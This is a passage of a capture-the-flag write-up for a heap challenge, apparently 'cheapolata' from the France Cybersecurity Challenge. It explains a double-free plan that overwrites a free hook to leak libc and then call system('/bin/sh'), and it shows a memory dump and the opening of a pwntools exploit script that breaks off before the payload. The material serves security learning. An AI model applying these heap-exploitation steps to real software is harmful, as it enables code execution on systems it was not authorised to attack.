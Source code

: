 However it does not work remotly which is sad because I could have first blooded it...

---
# The new plan

The max free limit scared me and I decided to hijack the `tcache_perthread_struct` but we actually don't need to.

![meme failed to load :(](https://imgur.com/qb4Lsqq)

We can double free a 0x20 sized chunk to later overwrite `old_free_hook`, then double free a 0x30 sized chunk to overwrite `old_free_hook` and `"a"` (`"a"` holds the current chunk and it is just after `old_free_hook`).
Now we can overwrite both `old_free_hook` with `puts@plt` and `"a"` with the address of `stderr` at the same time. 
We are now able to leak `stderr` with free, use the 0x20 sized chunk we double free-ed before to overwrite `old_free_hook` with `system()`, malloc a "/bin/sh\0" and use our last free on it to get a shell!

```C
0x602030:                       0x0000000000000000      0x0000000000000000 <--- null qword behind stderr (below 0x40)
0x602040 <stderr@@GLIBC_2.2.5>: 0x000073c2a7dec680      0x0000000000000000
0x602050 <old_free_hook>:       0x00000000004006a0      0x0000000000602040 <--- "a"
```

**TLDR**
- double free to overwrite `old_free_hook` and `"a"` with `puts@plt` and `&stderr` to leak libc.
- overwrite `old_free_hook` with `system()` and get a shell.

Here's the new script:
```py
from pwn import *
import pwn
import random as rnd
import struct as st
from time import sleep

context.arch = "amd64"
context.word_size = 64

file = "./cheapolata_patched"
args = []
io: process = None

speed = 0.1

def debug():
    gdb.attach(io, gdbscript=
    """
    define current
    x/10xg (void*)a-0x10
    end
    """)
    input("debug")

def launch_remote():
    global file, io
    io = remote(host="challenges.france-cybersecurity-challenge.fr", port=2106)

def launch_local():
    global file, io
    io = process([file, *args])
    # debug()

```
